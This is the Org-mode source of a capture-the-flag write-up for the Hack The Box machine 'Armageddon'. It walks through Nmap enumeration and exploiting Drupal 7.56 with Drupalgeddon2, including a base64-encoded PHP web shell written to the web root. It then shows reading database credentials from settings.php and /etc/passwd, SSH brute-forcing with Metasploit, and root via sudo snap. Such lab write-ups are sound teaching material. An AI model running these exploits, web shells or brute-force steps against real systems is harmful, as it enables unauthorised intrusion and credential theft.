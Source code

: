 #+TITLE: Armageddon
#+AUTHOR: Romeu Vieira

#+OPTIONS: html-style:nil
#+OPTIONS: html-scripts:nil

#+OPTIONS: author:nil
#+OPTIONS: email:nil
#+OPTIONS: date:t
#+OPTIONS: toc:nil

#+PROPERTY: header-args :eval no

#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="/style.css"/>

#+EXPORT_FILE_NAME: armageddon

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT

#+TOC: headlines 2

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT

* Enumeration

Using =Nmap=, the output is as follows:

#+begin_src
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-24 00:53 WEST
Nmap scan report for 10.10.10.233
Host is up (0.040s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.92 seconds
#+end_src

There is a fair amount of information related to port 80:
- Apache httpd 2.4.6
- PHP 5.4.16
- Drupal 7
- Several directories in =robots.txt=

After adding an entry to =/etc/hosts= as =10.10.10.233 armageddon.htb=, it is
possible to access the website:

[[./images/img1.jpg]]

From the screenshot, it is possible to see that there is a login form and it is
also possible to create a new account and request a new password.

Creating a new account /kind/ of works because it shows a success message
alongside an error message.

[[./images/img2.jpg]]

There are many things we could try: checking for SQL Injection, using =Burp= to
verify requests/responses, etc.
There is also something else that is possible to do, and that is to check whole
=robots.txt= file in =http://armageddon.htb/robots.txt=. There are some open
directories, and there are some files that can be read. One of them is called
=CHANGELOG.txt=, which contains information on the current Drupal version. We
already have the information that Drupal is on version =7=, but in this file we
have the information that Drupal is on version =7.56=. From here, it is possible
to verify on [[https://www.exploit-db.com/][Exploit-DB]] that there are some
exploits that could work on this version. By searching =Drupal=, many results
appear. One of them is more interesting than the others, in this case in
particular, because of its name: =Drupalgeddon2=. [[https://www.exploit-db.com/exploits/44449][This may be the one
we’re looking for.]]
This one can also be found on
[[https://github.com/dreadlocked/Drupalgeddon2][Github]].

I did download it from Github and ran it:

#+begin_src
λ  Drupalgeddon2 (master) $ ruby drupalgeddon2.rb http://armageddon.htb/

[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://armageddon.htb/
--------------------------------------------------------------------------------
[+] Found  : http://armageddon.htb/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.56
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo WYSXAWJW
[+] Result : WYSXAWJW
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://armageddon.htb/shell.php)
[!] Response: HTTP 200 // Size: 6.   ***Something could already be there?***
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://armageddon.htb/shell.php' -d 'c=hostname'
#+end_src

This gives a reverse shell into the server.

#+begin_src
armageddon.htb>> whoami
apache

armageddon.htb>> id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0

armageddon.htb>> pwd
/var/www/html
#+end_src

* User

In this situation it is not really possible to move to many other directories
except the ones in our current directory, =/var/www/html=. Can’t hurt if we try
to find every instance of the word =password= in our current directory:

#+begin_src
$ grep -rn "password" .
#+end_src

We get some interesting results in the middle of the output:

#+begin_src
./modules/user/user.test:732:    require_once DRUPAL_ROOT . '/' . variable_get('password_inc', 'includes/password.inc');
./sites/default/settings.php:254:      'password' => 'CQHEy@9M*m23gBVj',
#+end_src

There is a password in =./sites/default/settings.php=, and some other
information around that line where the password is:

#+begin_src
'database' => 'drupal',
'username' => 'drupaluser',
'password' => 'CQHEy@9M*m23gBVj',
#+end_src

At the same time, we can verify =/etc/passwd= to check existing users:

#+begin_src sh
$ cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash
#+end_src

There is a user called =brucetherealadmin= and it could be a potential target
for SSH bruteforcing. To do this the easy way, Metasploit can be used with it’s
auxiliary module, =auxiliary/scanner/ssh/ssh_login=, alongside a wordlist from [[https://github.com/danielmiessler/SecLists][Seclists]]:

#+begin_src
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set stop_on_success true
stop_on_success => true
msf6 auxiliary(scanner/ssh/ssh_login) > set rhosts 10.10.10.233
rhosts => 10.10.10.233
msf6 auxiliary(scanner/ssh/ssh_login) > set username brucetherealadmin
username => brucetherealadmin
msf6 auxiliary(scanner/ssh/ssh_login) > set verbose true
verbose => true
msf6 auxiliary(scanner/ssh/ssh_login) > set pass_file 100k-most-used-passwords-NCSC.txt
pass_file => 100k-most-used-passwords-NCSC.txt
msf6 auxiliary(scanner/ssh/ssh_login) > exploit

[+] 10.10.10.233:22 - Success: 'brucetherealadmin:booboo' 'uid=1000(brucetherealadmin) gid=1000(brucetherealadmin) groups=1000(brucetherealadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023 Linux armageddon.htb 3.10.0-1160.6.1.el7.x86_64 #1 SMP Tue Nov 17 13:59:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux '
#+end_src

After some tries, we find out that the password =booboo= is the one for the user
=brucetherealadmin=. Then we just use =SSH= to login and get the =user.txt=.
Accessing the database would be more complicated than bruteforcing, interacting
with it would also be difficult and wouldn’t guarantee any kind of relevant
information to get the user flag.

* Root

One of the first things to do is check what the user can run as sudo without
needing the password:

#+begin_src
[brucetherealadmin@armageddon ~]$ sudo -l

Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
#+end_src

From the output, =snap= command can be executed as =sudo= without password. From
here, we can verify in [[https://gtfobins.github.io/gtfobins/snap/][GTFOBins]]
that is it possible to execute arbitrary commands as =sudo= by following the
instructions on the website. In this case, instead of naming the snap package as
=x=, it should have a name with more than a single character. Also, the command
that I used to get the root flag was =cat /root/root.txt=.

* FOOTER                                                                                              :ignore:
:PROPERTIES:
:clearpage: t
:END:
#+BEGIN_EXPORT html
<hr>
<footer>
<p class="footer_right">24-04-2021</p>
<p><a class="footer" href="/index.html">Homepage</a></p>
<p><a class="footer" href="/writeups/htb/index.html">Back</a></p>
<div style="clear: both;"></div>
</footer>
#+END_EXPORT
